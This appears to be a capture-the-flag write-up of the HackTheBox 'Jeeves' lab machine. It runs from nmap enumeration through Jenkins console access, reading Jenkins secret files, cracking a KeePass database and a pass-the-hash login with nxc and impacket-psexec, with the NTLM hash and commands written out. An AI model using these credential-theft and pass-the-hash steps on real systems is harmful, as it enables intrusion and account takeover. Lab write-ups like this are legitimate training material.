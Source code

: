 #Pwned! 
```IP
10.10.10.63
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.10.63 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

```
## HTTP 80
We get an image error everytime we search for something in the application. The error displays the MSQLS version: Microsoft SQL Server 2005 9.00.4053.00
Fuzzing directories doesn't seem to reveal anything interesting.
It seems to be patched against SQLi too.
## HTTP 50000
Jetty 9.4.z-SNAPSHOT
Apparently we can't do a path traversal attack, fuzzing directories proves useless until we try with seclist `directory-list-2.3-medium.txt` which finds `askjeeves` directory.
Ì tried to exploit it using https://github.com/jpiechowka/jenkins-cve-2016-0792.git but we get the following message:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094323.png?raw=true)
If we navigate to askjeeves we have the jenkins console where we can execute code with the build functionality
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094705.png?raw=true)
We can also see in the bottom right corner that it is jenkins version 2.87
More information
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226095921.png?raw=true)
Apparently we can decrypt a password with the following code https://github.com/gquere/pwn_jenkins/tree/master if we have the following files:
```
type C:\Users\Administrator\.jenkins\users\admin\config.xml
type C:\Users\Administrator\.jenkins\secrets\master.key
type C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret
```
The last file however will output odd characters. We will need to transform it into base64 in order to properly operate with it:
```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226100901.png?raw=true)
```xml
<?xml version='1.0' encoding='UTF-8'?>
<user>
  <fullName>admin</fullName>
  <properties>
    <jenkins.security.ApiTokenProperty>
      <apiToken>{AQAAABAAAAAwID3cR3pyZaEkaDPU25Z0S+nrU8+gDgB0JEWORJ5L1P2T+zXc/tSs2IVn1ugWLaui54D6yYki4vhXQtGhqUSeFw==}</apiToken>
    </jenkins.security.ApiTokenProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1509762882255</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

```key
40e19a08d55698273e82182aae560bb78f5c99205e1b603de13e4729dfeed0bfaa9ed79557107ca7294a8a18a9bd81d60ee5610943e488bf2150dc1b06935b8f2a4f5b9370e0cb1d28249758e2b96cf2b658f2c5290fc6a202d9a04621c79eb0d09faf3246e50998a0aaea42b76eb96186f4842e0f9c07bbbd77152afc59de16
```

```hudson.util.Secret
17YMaGax5EC5QaxvqhRSuurM7gVN//UqUuX1U8FJW2Np3qtsgvujgtBo/v1tXF/yGlXbB66bv86gYvl7eIxilj1CaWlQr07+TyNivEdQPf+UEmCbxeP2aqF4fs6HAiXZzDerWnsEafFDAJlD8pedi7AJy2pojaveZAQIYMhuthnnRpEZFEEaHze340TfNySncWCCPMGP1Xde7tgiitohjQeFjfRB3mJltOTMEwyBlNvojomte32a7t7luw1uPJpHgmbqe987pEL1haa/VRq1kUB8kBegvnCXSa8FmLBRcPKU1XNmROSAZhuiPaNeWESv67jzlJiiYl7bNaMY3I/iXJ8kTKa3iRK9obBN05xKCQI=
```
We get the following password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226102958.png?raw=true)
```
b979d8dc2568628f73c75157a2fec5ee
```

Doesn't seem to work. If we execute a simple powershell reverse shell encoded in base64 we get a connection. Apparently it was a far easier path:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103455.png?raw=true)
We get user.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103628.png?raw=true)
Administrator does not seem to contain the flag root.txt.
We geta CEH.kdbx file though
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103939.png?raw=true)
we can transfer it copying to our workspace in jenkins
```
copy \users\kohsuke\documents\CEH.kdbx C:\Users\Administrator\.jenkins\workspace\test
```
And now we can download it in our local machine and extract the hash:
```
keepass2john /home/kali/Downloads/CEH.kdbx > CEH.hash
```
And we will try to crack it with
```
john --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111230.png?raw=true)
Now we can access the database:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111849.png?raw=true)
There is a password that seems like an NTLM hash:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111835.png?raw=true)
If we perform a pass the hash attack we will see that it works with administrator user:
```
nxc smb 10.10.10.63 -u administrator  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112109.png?raw=true)
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```
We have now access as NT Authority System
And we can see in the administrator desktop a data stream file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112551.png?raw=true)
Which we can read with
```
more < hm.txt:root.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112748.png?raw=true)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

